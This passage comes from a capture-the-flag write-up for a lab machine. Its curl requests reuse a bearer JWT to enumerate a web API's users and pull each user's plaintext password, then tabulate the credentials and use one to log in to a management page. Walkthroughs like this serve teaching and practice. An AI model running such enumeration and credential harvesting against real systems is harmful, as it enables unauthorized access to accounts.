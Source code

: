 Lets use this token to get more info if we can. After a little playing around with the request headers we're able to authenticate into the `/users` directory, which returns a list of usernames.


```console
root@kali:/media/sf_Research# curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYwNjQ4MDYwLCJleHAiOjE1NjA3MzQ0NjB9.mnXdriQeks-RRVtUmC5BnNl-P_HWWXhsb9fVQdJLmLI" http://10.10.10.137:3000/users
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```


We also know that theres an endpoint `/users/admin`, and when we visit that we're given some credentials in plain text!
```console
root@kali:/media/sf_Research# curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYwNjQ4MDYwLCJleHAiOjE1NjA3MzQ0NjB9.mnXdriQeks-RRVtUmC5BnNl-P_HWWXhsb9fVQdJLmLI" http://10.10.10.137:3000/users/admin
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
```


The admin password above doesn't work on any of our login pages either, not in combination with any of our current usernames. So, after some head scratching there's more CTF intuition required. Perhaps other users on the site have their own API endpoints?
```console
root@kali:/media/sf_Research# curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYwNjQ4MDYwLCJleHAiOjE1NjA3MzQ0NjB9.mnXdriQeks-RRVtUmC5BnNl-P_HWWXhsb9fVQdJLmLI" http://10.10.10.137:3000/users/derry
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}

root@kali:/media/sf_Research# curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYwNjQ4MDYwLCJleHAiOjE1NjA3MzQ0NjB9.mnXdriQeks-RRVtUmC5BnNl-P_HWWXhsb9fVQdJLmLI" http://10.10.10.137:3000/users/yuri
{"name":"Yuri","password":"bet@tester87"}

root@kali:/media/sf_Research# curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYwNjQ4MDYwLCJleHAiOjE1NjA3MzQ0NjB9.mnXdriQeks-RRVtUmC5BnNl-P_HWWXhsb9fVQdJLmLI" http://10.10.10.137:3000/users/dory
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```
This is great, we've expanded on our list of usernames a little, and our list of credentials significantly. Lets recap what we have so far before we move on to try them out on the other login pages.

| **Potential Users**        | **Potential Passwords**          |
| ---------------------------|----------------------------------|
| admin                      | WX5b7)>/rp$U)FW                  |
| derry                      | rZ86wwLvx7jUxtch                 |
| dory                       | 5y:!xa=ybfe)/QD                  |
| yuri                       | bet@tester87                     |


### Management
The credentials we have obtained are again tried out port `8000`, but none of them are getting us in. So, we move on to the `/management` directory of port `80`. Since derry is the administrator of the site (as determined by the letter we found) we try his first. They work when we capitalize the first letter of his username.
